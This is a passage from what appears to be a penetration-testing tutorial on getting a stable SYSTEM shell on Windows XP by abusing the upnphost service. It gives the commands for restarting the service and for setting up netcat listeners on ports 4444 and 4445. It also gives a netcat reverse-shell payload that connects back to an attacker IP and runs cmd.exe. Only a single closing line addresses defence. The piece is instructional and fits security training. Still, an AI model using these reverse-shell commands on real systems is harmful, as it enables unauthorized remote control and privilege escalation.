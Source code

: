 C:\> net start upnphost							
							

We have now received a SYSTEM shell on our listener at our attacking machine! But there's another problem. The shell is unstable and it closes after about 30 seconds. Luckily there is a way to solve this. Once we get the unstable shell on port 4444, we will execute another command right away that will establish a 2nd connection to another listener we set up on another port. When the unstable shell is closed, set up your listener again at port 4444 and set up a 2nd listener in another tab on another port. I will set my 2nd listener at port 4445.


# TAB 1
root@pwnux:~# nc -lvnp 4444
								
# TAB 2
root@pwnux:~# nc -lvnp 4445								
							

Next, prepare a payload to send once our connection to the first listener on port 4444 is established. We can simply copy the payload we added in the binary path from our upnphost service, and change the port to the port of our 2nd listener.


C:\nc.exe -nv 192.168.0.2 4445 -e C:\WINDOWS\System32\cmd.exe							
							

Finally we're ready to get a steady SYSTEM shell. Start the upnphost service again, a new connection will be established to our listener on port 4444. Once this shell is open, paste your payload we just created for a new connection to our listener on port 4445 and execute it. When we now check our listener in TAB 2, we will have a steady SYSTEM shell that will not close after a while.

How to protect against this exploit

Upgrade to Windows XP SP2 or higher.
